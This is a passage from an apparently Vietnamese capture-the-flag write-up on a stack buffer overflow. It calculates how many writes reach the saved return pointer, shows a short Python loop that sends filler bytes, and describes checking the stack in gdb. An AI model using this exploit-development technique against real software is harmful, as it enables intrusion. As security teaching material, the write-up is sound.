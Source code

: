 ![offset.png](images/offset.png)

Vậy ta cần phải ghi `8157 + 30 = 8187` lần là sẽ reach saved rip. Ta có đoạn script sau để test thử:

```python
for i in range(8157 + 30):
    p.sendafter(b'complete', b'AAAAAAAA')
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Chạy script và debug với gdb, chạy từng câu lệnh cho tới khi chương trình thực hiện `leave ; ret` và ta để ý stack sẽ thấy vẫn còn thiếu 2 lần nữa:

![stack.png](images/stack.png)
